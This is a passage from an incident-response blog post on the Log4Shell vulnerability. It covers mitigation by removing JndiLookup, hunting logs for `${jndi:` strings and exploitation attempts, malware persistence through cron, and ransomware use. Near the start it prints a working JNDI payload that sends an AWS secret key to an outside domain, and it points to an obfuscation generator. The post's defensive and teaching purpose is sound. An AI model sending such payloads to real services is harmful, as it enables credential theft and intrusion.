 ```
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.dfir.fi/log4j}
```

There are also rumors of payloads that work without downloading anything from internet. I will update this blog post, if I come across with working one.

Successful mitigation of the vulnerability can be achieved by removing the vulnerable `JndiLookup` class from Log4j:

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

## Incident response tips

The vulnerability was reported to Apache in November 2021, but it has been in Log4j since version 2.0-beta9, which was released 8 years ago. The vulnerability was released on 10th of December and since then the scanning has been super wild. Cloudflare also claims that they have seen the first exploit attempts on 1st of December 2021. Taking these premises into account, we should assume our vulnerable internet facing services have been breached.

{{< twitter user="eastdakota" id="1469800951351427073" >}}

To start the investigation, you should take a look to logs. Look for any signs of the exploit string `${jndi:`. You should also note that latest exploitation attempts have been obfuscated for example to bypass WAF or to evade detection. To make the obfuscation easier, someone has released [Log4j payload generator tool](https://github.com/woodpecker-appstore/log4j-payload-generator) on GitHub. As shown in the image below, the output of the tool can be pretty hardcore.

![Obfuscated payload](/images/blog/little_obfuscation.png)

[Florian Roth has also released a nice scanner](https://github.com/Neo23x0/log4shell-detector) for Log4shell exploitation attempts. If you find exploitation attempts from access logs, please note that the HTTP code does not indicate if the exploitation was successful or not. The Log4j might log the requests whether the requested URI exists or not. It's also good to remind that you might not have all HTTP headers and POST payload stored anywhere, which makes detecting the issue and investigating the incident much harder. Thankfully all incident responders have already used to lack of visibility.

After locating the exploitation, you should examine what it does and where it tries to fetch the payload. When you know where the payload is downloaded from, check the firewall logs if you can confirm if the download was successfully. Next see where the payload is written. I know there has been a lot Mushtik and Kinsing distributed using the Log4shell. Both of them use cron for persistence, so you should check cronjobs running on the system. I wouldn't consider these payloads as severe threat for organization but I would be worried if there was anything else than these or a coin miner.

Based on the [AdvIntel blog post](https://www.advintel.io/post/ransomware-advisory-log4shell-exploitation-for-initial-access-lateral-movement), Conti ransomware also uses Log4shell for initial access and lateral movement. My bet is that in few weeks we see a bloom in ransomware cases that used Log4shell for the initial access. I am also certain that all logs regarding Log4j are not available to you in your SIEM. If you haven't started yet, now would be great time to start threat hunting and use successful Log4shell exploitation as your hypothesis.

## Disclaimer
